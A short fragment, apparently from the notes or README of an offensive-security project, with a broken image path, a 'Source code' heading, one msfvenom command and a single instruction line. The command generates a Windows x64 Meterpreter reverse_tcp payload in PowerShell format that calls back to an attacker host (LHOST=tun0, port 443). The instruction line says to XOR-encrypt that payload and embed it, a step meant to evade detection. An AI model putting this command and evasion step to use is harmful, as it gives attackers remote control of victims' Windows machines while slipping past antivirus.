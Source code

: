 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
Then, ecnrypt with Xor and implement in payload.